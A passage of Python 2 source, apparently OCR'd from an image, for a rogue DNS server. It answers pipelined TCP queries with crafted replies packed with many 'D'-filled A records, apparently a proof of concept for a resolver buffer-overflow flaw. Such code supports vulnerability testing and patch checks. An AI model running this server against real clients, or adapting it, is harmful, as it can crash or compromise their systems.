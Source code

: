 ```
      answers = answers[::-1]

    time.sleep(0.01)
    sock_udp.sendto(*answers.pop(0))
    reply_now.wait()
    sock_udp.sendto(*answers.pop(0))

  sock_udp.close()


def tcp_thread():
  global terminate
  counter = -1

  #Open TCP socket
  sock_tcp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  sock_tcp.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  sock_tcp.bind((IP, 53))
  sock_tcp.listen(10)

  while not terminate:
    conn, addr = sock_tcp.accept()
    counter += 1
    print 'Connected with ' + addr[0] + ':' + str(addr[1])

    # Read entire packet
    data = conn.recv(1024)
    print '[TCP] Total Data len recv ' + str(len(data))

    reqlen1 = socket.ntohs(struct.unpack('H', data[0:2])[0])
    print '[TCP] Request1 len recv ' + str(reqlen1)
    data1 = data[2:2+reqlen1]
    id1 = struct.unpack('>H', data1[0:2])[0]
    query1 = data[12:]

    # Do we have an extra request?
    data2 = None
    if len(data) > 2+reqlen1:
      reqlen2 = socket.ntohs(struct.unpack('H', data[2+reqlen1:2+reqlen1+2])[0])
      print '[TCP] Request2 len recv ' + str(reqlen2)
      data2 = data[2+reqlen1+2:2+reqlen1+2+reqlen2]
      id2 = struct.unpack('>H', data2[0:2])[0]
      query2 = data2[12:]

    # Reply them on different packets
    data = ''
    data += dw(id1)                      # id
    data += dw(0x8180)                   # flags
    data += dw(1)                        # questions
    data += dw(ANSWERS1)                 # answers
    data += dw(0)                        # authoritative
    data += dw(0)                        # additional
    data += query1                       # question

    for i in range(ANSWERS1):
      answer = dw(0xc00c)  # name compressed
      answer += dw(1)      # type A
      answer += dw(1)      # class
      answer += dd(13)     # ttl
      answer += dw(4)      # data length
      answer += 'D' * 4    # data

      data += answer
```